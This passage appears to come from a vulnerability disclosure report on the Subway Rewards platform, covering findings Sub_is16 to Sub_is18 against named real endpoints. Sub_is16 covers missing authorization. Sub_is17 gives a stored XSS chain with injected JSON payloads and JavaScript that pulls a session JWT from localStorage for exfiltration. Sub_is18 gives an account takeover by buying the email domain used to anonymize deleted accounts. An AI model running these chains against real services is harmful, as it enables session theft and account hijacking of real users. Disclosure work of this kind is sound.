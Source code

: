 # Sub_is16

| Sub_is16 |  |
| :---: | :-- |
| Weakness | [CWE - CWE-862: Missing Authorization (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/862.html) |
| Description | Write/modify access granted, contrary to other endpoints |
| Cause/Reference |  |
| URL/Location | https://strapi-sub.tranxactor.com/mastercampaigns </br> https://strapi-sub.tranxactor.com/mastercampaigns/xxx </br> https://strapi-sub.tranxactor.com/mastertandcs </br> https://strapi-sub.tranxactor.com/mastertandcs/xxx </br> https://strapi-sub.tranxactor.com/mastercampaignresponses/xxx |
| Action | POST </br> PUT </br> POST </br> PUT </br> PUT |
| Result | Resources can be created (POST) and edited (PUT). |

# Sub_is17

| Sub_is17 |  |
| :---: | :-- |
| Weakness |  |
| Description | Authenticated user session token extraction |
| Cause/Reference | [Sub_is16](#sub_is16) |
| URL/Location | https://subwayrewards.(at\|de\|fr\|ie\|nl\|uk\|se)/campaign?campaignCode=xxx |
| Action | 1) POST T&Cs due to [Sub_is16](#sub_is16) with: `{"json":{"isLink":false, "haveTickBox":false, "content":"<img onload=\"scriptEquivalentOfPoint7)\"/>You are now eligible to participate!","title":"Click here to get eligible for this survey."}}` </br> 2) POST Campaign due to [Sub_is16](#sub_is16), with the above T&Cs and: `{"campaignCode":"xxxxxx","json":{"acceptBtnText":"Submit only valid after clicking T&Cs", "isAcceptVisible":true, "isOverWriteTAndCTranslation":true", "custom_t_and_c_phrase_1":"Click here to be eligible to enter:", "custom_t_and_c_phrase_2":"Terms and Conditions"}, "mastertandc":{"responseOfPoint1)" }}` </br> 3) Share campaign link with chosen campaignCode from 2) </br> 4) Web UI automatically enforces user-login </br> 5) Authenticated user gets the instructions of 2) and click T&Cs link </br> 6) T&Cs dialog opens and `$.json.content` gets inserted with dangerouslySetInnerHTML(), which prevents the execution of <script>s but not \<img onload=[...]> </br> 7) `var j = localStorage.getItem("ls"); var w = new SimpleCrypt("subway").decrypt(j); var t = JSON.parse(JSON.parse(w)); var jwt = t.login.token;` </br> 8) Transmit the jwt via any means to self-controlled server (XHR, img, ...) </br> 9) Decode the jwt after receiving it, extract masterToken </br> 10) Refresh the jwt with the masterToken on the server |
| Result | Session token exfiltrated and decoupled from active user session |

# Sub_is18

| Sub_is18 |  |
| :---: | :-- |
| Weakness | [CWE - CWE-610: Externally Controlled Reference to a Resource in Another Sphere (4.8) (mitre.org)](https://cwe.mitre.org/data/definitions/610.html) |
| Description | Account deletion is only renaming the primary&secondary email and first/last name with anonymized data. This includes setting the email(s) to "anonymization.email.[userId]@anonym.com". |
| Cause/Reference | [Sub_is4](#sub_is4), [Sub_is5](#sub_is5), [Sub_is10](#sub_is10) |
| URL/Location | [#1419341 Hijack all emails sent to any domain that uses Cloudflare Email Forwarding (hackerone.com)](https://hackerone.com/reports/1419341) [Hijacking email with Cloudflare Email Routing // Albert Pedersen](https://albertpedersen.com/blog/hijacking-email-with-cloudflare-email-routing/) |
| Action | 1) Buy anonym.com (or due to being managed under cloudflare, which eventually had a – now closed – vulnerability in email forwarding) </br> 2) Set up forwarding of incoming emails to a controlled catch-all mailbox </br> 3) Request logon code with [Sub_is4](#sub_is4) for enumerated emails (++userId) </br> 4) Email arrives at catch-all mailbox, so no need for [Sub_is5](#sub_is5) enumeration </br> 5) Logon with the code received, this massively simplifies the enumeration of [Sub_is10](#sub_is10) |
| Result | The external controlled domain can get bought & controlled by anyone, whilst the reference stays the same. |
